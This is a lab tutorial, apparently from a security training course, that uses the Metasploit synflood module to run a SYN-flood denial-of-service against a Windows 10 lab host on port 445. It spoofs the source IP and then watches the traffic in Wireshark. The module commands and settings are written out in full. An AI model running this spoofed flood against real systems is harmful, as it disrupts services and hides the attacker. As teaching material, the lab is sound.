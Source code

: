 In this lab, we will use an auxiliary module from **Metasploit** named **synflood** to perform DoS attack on the target using port 445.

## Perform DoS attack
Type **msfconsole** to launch Metasploit Framework.

`msfconsole`

Type the command to load the module:

`use auxiliary/dos/tcp/synflood`

To display all the options of the module, type:

`options`

```
Name       Current Setting  Required  Description
----       ---------------  --------  -----------
INTERFACE                   no        The name of the interface
NUM                         no        Number of SYNs to send (else unlimited)
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      80               yes       The target port
SHOST                       no        The spoofable source address (else randomizes)
SNAPLEN    65535            yes       The number of bytes to capture
SPORT                       no        The source port (else randomizes)
TIMEOUT    500              yes       The number of seconds to wait for new data
```

We will change the RHOST, RPORT and SHOST parameters:

`set RHOST [IP address of Windows 10]`<br>
`set RPORT 445`<br>
`set SHOST [IP address of Windows Server]`

By setting the **SHOST** option to the IP address of Windows Server, you are spoofing the IP address of Kali Linux machine.

Once the auxiliary module is configured, start the DoS attack on Windows 10 by typing:

`run`

![synflood](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/9f36f0e0d55c0b7429e547dd93c7c55c55b96ea4/synflood-0.png)

This begins the SYN flooding on the Windows 10.

## Examine the DoS Attack
Switch to the Windows 10 machine and launch the [**Wireshark**](https://www.wireshark.org/), select the corret interface and click start.

Wireshark displays the traffic comming from the machine as shown below:

![wireshark-synflood-detect](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/9f36f0e0d55c0b7429e547dd93c7c55c55b96ea4/synflood-wireshark-4.png)

Here, you can observe that the source IP address is from Windows Server. This implies that the IP Address of Kali Linux has been spoofed.
